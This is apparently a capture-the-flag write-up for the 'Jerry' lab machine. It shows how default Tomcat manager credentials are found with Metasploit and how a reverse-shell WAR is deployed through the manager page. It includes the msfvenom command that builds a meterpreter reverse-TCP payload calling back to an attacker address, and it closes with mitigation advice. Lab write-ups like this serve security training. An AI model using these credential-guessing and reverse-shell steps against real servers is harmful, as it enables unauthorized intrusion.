# Jerry

## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Mitigation**](#Mitigation)

## Box

 

## Profile

## Enumeration

First, nmap scanning:

 

Apache Tomcat is used here with an old version 7.0.88 (latest version: 9.0.41). When i go to the webpage on port 8080, the default Tomcat page appear. I try to click on the manager page but authentication is required:

 

So, i started **metasploit** to enumerate default credentials of tomcat manager authentication with the following module: `auxiliary/scanner/http/tomcat_mgr_login`

And i got valid combination:

 

I used this credentials and it works, i connected:

 

After a few searches, i found an interesting exploit from **rapid7**:

**** 

We can deploy `war` file which allow code execution. 

## Exploitation

### Using msfvenom

Here, i manually generate a payload in a war file using msfvenom: `msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.31 LPORT=4242 -f war > reverse.war`

 

I launched **metasploit** to start to listen and get the meterpreter using `exploit/multi/handler` module (don't forget to set the right payload, here `java/meterpreter/reverse_tcp`).

I uploaded my war file on the manager page:

   

I clicked on the deployed file and i got my meterpreter:

 

### Using metasploit module

On the **rapid7** page, i used the **metasploit** module: `exploit/multi/http/tomcat_mgr_upload`

 

I set up all options (username, password, rhost etc.) and i runned it, and i got the meterpreter:

  

I tried to go in Administrator directory and i had access, so i got easily the flags:

 

## Mitigation

To avoid theses vulnerabilities, it is recommended to:

- Change all default **Username/Password** credentials
- Create strong authentication credentials
- Upgrade to the latest version of tomcat